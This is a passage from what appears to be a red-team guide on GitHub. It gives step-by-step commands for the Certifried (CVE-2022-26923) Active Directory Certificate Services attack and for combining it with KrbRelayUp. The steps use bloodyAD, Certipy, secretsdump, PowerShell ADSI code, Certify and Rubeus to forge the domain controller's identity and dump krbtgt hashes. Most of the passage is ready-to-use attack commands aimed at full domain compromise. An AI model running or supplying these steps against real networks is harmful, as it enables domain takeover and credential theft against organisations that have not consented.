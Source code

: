 - 2\. Create a new computer account with the dNSHostName attribute set to the domain controller's FQDN.
	- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): `CVE-2022-26923 <new name computer account>`
	- \([bloodyAD](https://github.com/CravateRouge/bloodyAD)\):
		- 1\. Create new machine account (bloodyAD): `python3 bloodyAD.py -d <FQDN> -u <username> -p '<password>' --host <IP DC> addComputer <new computer name> '<new password>'`
		- 2\. Set the dNSHostName attribute of the new machine account to the domain controller's FQDN (bloodyAD): `python3 bloodyAD.py -d <FQDN> -u <username> -p '<password>' --host <IP DC> setAttribute 'CN=<computer name>,CN=Computers,DC=<domain>,DC=<com>' dNSHostName '["<FQDN DC>"]'`
		- 3\. Verify if successful (bloodyAD): `python3 bloodyAD.py -d <FQDN> -u <username> -p '<password>' --host <IP DC> getObjectAttributes 'CN=<computer name>,CN=Computers,DC=<domain>,DC=<com>' dNSHostName`
- 3\. (optional) start socks proxy if the DC01/ADCS servers can't be reached directly from the attacker system
- 4\. Request a machine certificate (Certipy): `(proxychains4) certipy req 'example.local/<new machine account>$:<Password>@<CA server IP>' -ca <CA-NAME> -template Machine`
- 5\. Authenticate to the domain using the requested certificate and obtain the DC machine account NTLM hash (Certipy): `(proxychains4) certipy auth -pfx <dc01>.pfx -dc-ip <DC IP>`
- 6\. Use the obtained NT hash to, for example, dump hashes (impacket): `(proxychains4) secretsdump.py '<FQDN>/<DC>$@<DC IP>' -hashes :<DC NT Hash> -just-dc-user <domain>/krbtgt`

#### _Certifried in combination with KrbRelayUp:_
Combining the Certifried attack (DA privesc from non-privileged domain user) and Kerberos Relay attack using the Shadow Credential technique (local admin privesc on domain joined machine), makes it possible to escalate from a non-privileged domain user context to DA without the requirement of adding/owning a computer accounts. Gist post can be found  [here](https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25).
- 1\. Start a elevated SYSTEM beacon using the [KrbRelay with RBCD/ShadowCredential privilege escalation](https://github.com/pietermiske/RT-Survival-Guides/blob/main/Guides/Windows_privesc.md#krbrelay-with-rbcdshadowcredential-privilege-escalation) attack using the Shadow Credential technqiue.
- 2\. In the elevated beacon remove the SPNs and modify dNSHostName of the current machine (this method uses the PowerShell ADSI Adapter):
    ```PowerShell
    $searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
    $searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f $Env:ComputerName
    $obj = [ADSI]$searcher.FindAll().Path
    $spn = @()
    $obj.servicePrincipalName | % { $spn += $_ }
    $dns = $obj.dNSHostName.ToString()     
    $spn | % { $obj.servicePrincipalName.Remove($_) }
    $obj.dNSHostName = "dc1.ecorp.local"
    $obj.SetInfo()
    ```
- 3\. Request machine certificate for the current system \([Certify](https://github.com/GhostPack/Certify)\): `Certify.exe request /ca:<FQDN DC>\<CA-NAME> /machine`
- 4\. Restore in the step 2 modified computer attributes:
    ```PowerShell
    $obj.dNSHostName = $dns
    $spn | % { $obj.servicePrincipalName.Add($_) }
    $obj.SetInfo()
    ```
- 5\. Copy the private key with the certificate issued at step 3 as cert.pem to a (Linux) box running openssl and convert it to pfx (no need to set a password): `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
- 6\. Convert the cert.pfx file to base64: `cat cert.pfx | base64 -w0`
- 7\. Request the Kerberos TGT using the certificate and PKINIT and inject it into the non-elevated beacon \([Rubeus](https://github.com/GhostPack/Rubeus)\): `Rubeus.exe asktgt /user:<DC computer account>$ /certificate:<base64 pfx> /ptt`
- 8\. It is now possible to perform remote actions under the context of the DC computer account.  
